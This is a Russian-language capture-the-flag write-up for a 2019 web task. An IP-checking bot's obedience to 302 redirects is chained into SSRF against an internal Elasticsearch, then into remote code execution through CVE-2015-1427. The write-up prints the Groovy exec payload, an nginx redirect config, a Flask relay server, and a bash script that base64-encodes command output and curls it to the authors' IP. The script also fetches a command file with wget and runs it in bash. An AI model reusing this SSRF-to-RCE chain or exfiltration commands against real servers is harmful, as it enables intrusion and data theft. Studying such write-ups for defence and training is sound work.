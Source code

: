 1. Обратили внимание на ссылки вида href="/show?id=q=_id:4" и подсказку 
в описании задачи о быстром поиске, про эластик мы поняли сииильно позже.
2. Чекалку ip натравили на свой сервер, получили инфу что приложение 
на Ruby и реально ходит туда куда сказали, пробовали отдавать разные коды
и обнаружили что чекалка слушается 302.
3. Дернули постом /show?id=q=_id:5 получили 400 - поняли что там sinatra 
4. Погуглили RCE, нашли только две на path traversal и на XSS через 400 BAD REQUEST.
 Потеряли много времени в попытке их реализовать.
5. Попробовали запросы вида `http://users.ctf2019.rocks/show?id=q=room:202`,
 `http://users.ctf2019.rocks/show?id=q=department:a*` и вот здесь до нас 
 дошло наконец-то, что поиск осуществляет ElasticSearch. Погуглили 
 elastic rce (а некоторые вспомнили намеки в промо-ролике CTF), нашли 
 https://github.com/t0kx/exploit-CVE-2015-1427/blob/master/exploit.sh
6. Начали насиловать бота 302 редиректами в elastic, поняли что опять имеем
дело со слепой инъекцией, приготовили правильный запрос и начали работать 
 через nginx ```return 302 'http://localhost:9200/_search?source={"size":1,"script_fields":{"infophp":{"script":"java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}';```
 Идея оказалась так себе, поскольку нон-стоп редактировать конфиг не очень удобно.
 7. Написали простенький сервер и bash скрипт
```python 
#!/usr/bin/python
from flask import Flask, request
from flask import Response
import requests
import sys
import requests, json

app = Flask(__name__)

elk_url = ""

@app.route("/save/<path:path>", methods=['POST', 'PUT'])
def saver(path):
    with open(path, 'wb') as f:
        f.write(request.stream.read().decode('base64'))
    return "saved"

@app.route("/cmd")
def cmd():
    with open('cmd', 'r') as cmd:
        resp = cmd.read()
    return resp

@app.route("/")
def hello():
    resp = Response('redirect')
    resp.headers['Location'] = elk_url
    return resp, 302

@app.route("/push/<path:path>")
def check(path):
    global elk_url
    elk_url = 'http://127.0.0.1:9200/'+ path +'?' + request.query_string.decode()
    req = requests.post("http://users.ctf2019.rocks/checkip", data={"ip":"http://89.163.129.121:5000"})
    return req.text, req.status_code

def elk_q(payload):
    requests.get("http://89.163.129.121:5000/push/_search", params={"source": json.dumps(payload)}).text

def inject(cmd):
    payload = {
        "script_fields": {
            "infophp": {
                "script":
                    '''java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("%s").getText()''' % cmd
            }
         }
    }
    elk_q(payload)

if __name__ == "__main__":
    if sys.argv[1] == 'start':
	app.run(host='0.0.0.0', port=5000, threaded=True)
    else:
        inject(sys.argv[1])
```
```bash

echo "$1 | base64 | curl -d @- http://89.163.129.121:5000/save/output" > cmd
./users.py 'wget -O /tmp/very_secret_path http://89.163.129.121:5000/cmd'; ./users.py 'bash /tmp/very_secret_path '
cat output
```
7. В run.sh увидели путь к исходнику в котором был доп
9. Вытянули второй доп из эластика
```bash
./exec.sh 'curl http://localhost:9200/_cat/indices?v'
health status index   pri rep docs.count docs.deleted store.size pri.store.size
yellow open   users     5   1         10            0     16.9kb         16.9kb
yellow open   secrets   5   1          1            0      3.1kb          3.1kb

./exec.sh 'curl http://localhost:9200/secrets/_search'
{"took":1,"timed_out":false,"_shards":{"total":5,"successful":5,"failed":0},"hits":{"total":1,"max_score":1.0,"hits":[{"_index":"secrets","_type":"secret","_id":"1","_score":1.0,"_source":{"flag":"WGCTF{B0AFB09FAC06F96059631AD5D5F0D377}"}}]}}
```

Осознание того, что можно было просто закинуть реверс-шелл пришло уже 
после того, как были вытянуты все флаги.
